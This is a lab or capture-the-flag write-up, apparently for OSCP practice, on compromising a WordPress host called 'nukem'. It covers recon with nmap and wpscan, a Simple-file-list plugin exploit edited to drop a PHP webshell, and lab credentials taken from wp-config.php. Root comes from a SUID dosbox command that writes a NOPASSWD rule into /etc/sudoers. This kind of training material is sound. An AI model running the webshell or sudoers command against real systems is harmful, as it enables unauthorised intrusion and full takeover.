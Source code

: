 **Start 13:08 03-01-2025**

---
```
Scope:
192.168.196.105
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -oN nmap nukem -T5 -vvvv --min-rate=5000 -sT -p-         

PORT      STATE SERVICE     REASON  VERSION
22/tcp    open  ssh         syn-ack OpenSSH 8.3 (protocol 2.0)
80/tcp    open  http        syn-ack Apache httpd 2.4.46 ((Unix) PHP/7.4.10)
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.10
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Retro Gamming &#8211; Just another WordPress site
|_http-generator: WordPress 5.5.1
3306/tcp  open  mysql?      syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, HTTPOptions, NULL, afp: 
|_    Host '192.168.45.238' is not allowed to connect to this MariaDB server
| mysql-info: 
|_  MySQL Error: Host '192.168.45.238' is not allowed to connect to this MariaDB server
5000/tcp  open  http        syn-ack Werkzeug httpd 1.0.1 (Python 3.8.5)
|_http-title: 404 Not Found
|_http-server-header: Werkzeug/1.0.1 Python/3.8.5
13000/tcp open  http        syn-ack nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Login V14
36445/tcp open  netbios-ssn syn-ack Samba smbd 4.6.2
```

It appears we have a webserver called `Retro Gaming` running on **WordPress 5.5.1** (which we will confirm).

We have a **MySQL** database on `3306` to which we are *NOT* allowed to connect.

Port `5000` is running a Python web server (presumably the backend server).

Port `13000` is running **nginx 1.18.0**.

Lastly port `36445` is running a **SMB 4.6.2** server.


## 80/TCP - HTTP

To further enumerate I first of all went to the website and checked it out.

![](../../../assets/808ea5499adedb024445542d8d5e91d1.png)

I inspected it closer using *WappAlyzer*:

![](../../../assets/27bf4bfc39bd7da6d6ed6f197e88708d.png)

## wpscan

In order to see what plugins might be vulnerable I used `wpscan` to check the website:

```bash
wpscan --url http://nukem
```

I then checked out the file and saw the following that stood out:

![](../../../assets/3a83982cb7e91e302bea79d8e2f5ee14.png)

![](../../../assets/24cfa3031dc06b7acf6a9cb794a49b7c.png)

Knowing this I decided to check whether there's a ready-made PoC available for this version.

![](../../../assets/b805d4ff720204c78388551529221dfe.png)

Found it.

Furthermore I also found the **Simple-file-list** exploit:

![](../../../assets/20c7859ca03ed8c79ee8624aaae866b0.png)

Now this looked a bit more promising, let's try this one out.


# Initial Foothold

The PoC looked somewhat as follows:

![](../../../assets/1fb60f5240146f286d9409ef91fb3e4b.png)

This file had to be edited in order for it to work.

I modified **line 36** to the following which would give me a webshell:

```python
payload = '<?php system($_GET["cmd"]); ?>'
```

![](../../../assets/cf8b1faf3e97415f6578c7ad4598aeb9.png)

Then I went to the website:

![](../../../assets/fdf04dc4b1a5352a9efbe22f73aa148e.png)

From here I could go ahead and craft up a reverse shell that would connect back to me, but first I got the `local.txt` flag.


### local.txt

![](../../../assets/8d2768896ec245a6a6a02745aeceadcb.png)


### Reverse Shell - Fail

From here on I had to url encode a simple reverse shell in order to get a normal shell.

>[!fail]
>Unfortunately enough I tried a bunch of different variations and got stuck, so I had to improvise.

![](../../../assets/8907d84c859a65d7f793624697140316.png)

![](../../../assets/1b758d17078df070d4f1bbb15c586820.png)


### Reverse Shell -Success

For this attempt I went ahead and put a php reverse shell in place of the previous webshell command:

![](../../../assets/109d8cdb69eb00f127a5316c3879ac3c.png)

![](../../../assets/1230d733fa5e1237f2dcc97c6e8533eb.png)

Now that I finally had a shell I could get to exploiting.

>[!summary]
>1) I quickly found out that I had a shell as `http` and I could *NOT* run `sudo -l`.
>2) I was able to view `commander`'s `/home` directory.


## System Enumeration

Before I could go ahead and escalate my privileges, I had to first understand what environment I am dealing with.

To do this I went ahead and issued the following commands:

![](../../../assets/fb62d1a04db788937bfd47456196f8fb.png)

It seems we're dealing with an **Arch Linux** environment, which is a bit different from Debian-based Linux systems.

Since I couldn't find anything useful right away I decided to look for any config files:

```bash
find / -type f -name "*config*" 2>/dev/null
```

Amongst these I found this one file:

```bash
/srv/http/wp-config.php
```

![](../../../assets/4280ffc3d844fce48b5ce651938cf84f.png)

This could be a really important file for us!!!

![](../../../assets/4b0f719fa5f315713f54bb0851431d9b.png)

Look at that, appears we got the creds for *commander*:

```
commander
CommanderKeenVorticons1990
```

As for the rest of the file I couldn't find anything useful.

![](../../../assets/1ecb98f7884d865a93c3c8e74248e8b6.png)

Like that we're now the *commander* user.


## MySQL

![](../../../assets/cad05e0b6ecbddefef8e8e591e3a332d.png)

And now we can enumerate databases.

![](../../../assets/03254de10d8e3060040337b8384a21a4.png)

![](../../../assets/976931ca4c322739435e128c36b070ba.png)

![](../../../assets/6cd15e401e42d6f21f02d8ca10599786.png)

It seems to be only the admin user, for now we'll just note this and look for other vectors to get `root`.


# Privilege Escalation

I am not allowed to run `sudo -l` so there must be another way.

Apparently the attack vector was way easier, I looked at the binaries again:

```bash
find / -perm -u=s -type f 2>/dev/null
```

![](../../../assets/7eb31e6b09268f55b2fa41e1fc57f3c4.png)

I started checking all of them on [gtfobins](https://gtfobins.github.io/gtfobins/dosbox/) when I found `dosbox` to be interesting:

![](../../../assets/76b5697516e1b4d0a39fdd4320541694.png)

I will be writing the following to the `/etc/sudoers` file so *commander* can also become part of the sudoers group.

```bash
LFILE='/etc/sudoers'
/usr/bin/dosbox -c  'mount c /' -c "echo commander ALL=(ALL) NOPASSWD: ALL >> c:$LFILE" -c exit
```

![](../../../assets/fe324a9e54ae9a9fab13f39a8ad7fe3d.png)

Now if everything went correctly, I can go ahead and issue `sudo -l` now.

![](../../../assets/19478a0b5264d71e680bb83a00dc7eee.png)

Awesome.

Now all that's left to do is:

![](../../../assets/d8595b1a26ae3732bada3a5a098786d9.png)

---

**Finished 17:09 03-01-2025**

[^Links]: [[OSCP Prep]] 

#enumeration #Wordpress 